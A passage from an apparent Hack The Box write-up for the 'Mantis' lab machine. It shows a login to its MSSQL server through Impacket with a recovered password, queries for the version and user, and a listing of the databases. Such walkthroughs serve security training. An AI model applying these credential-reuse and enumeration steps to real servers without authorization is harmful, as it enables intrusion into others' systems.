 It looks similar with Wordpress admin panel, but have no same vulnerability..
There's no existing RCE vulnerability as well.
Let's visit it later.

### mssql(1433)

I tried the found mssql credential(`m$$ql_S@_P@ssW0rd!`) this time.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ impacket-mssqlclient 'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL (admin  admin@master)> 
```

The credential worked.

```sql

SQL (admin  admin@master)> SELECT @@version;
                                                                                                                                                                                                          
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
Microsoft SQL Server 2014 - 12.0.2000.8 (X64) 
        Feb 20 2014 20:04:26 
        Copyright (c) Microsoft Corporation
        Express Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) (Hypervisor)
   

SQL (admin  admin@master)> SELECT USER_NAME();
        
-----   
admin   

SQL (admin  admin@master)> SELECT SYSTEM_USER;
        
-----   
admin   
```

Let's dive deep into the database;

```sql
SQL (admin  admin@master)> SELECT name FROM master.dbo.sysdatabases;
name        
---------   
master      
tempdb      
model       
msdb        
orcharddb 


SQL (admin  admin@master)> USE orcharddb
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.

```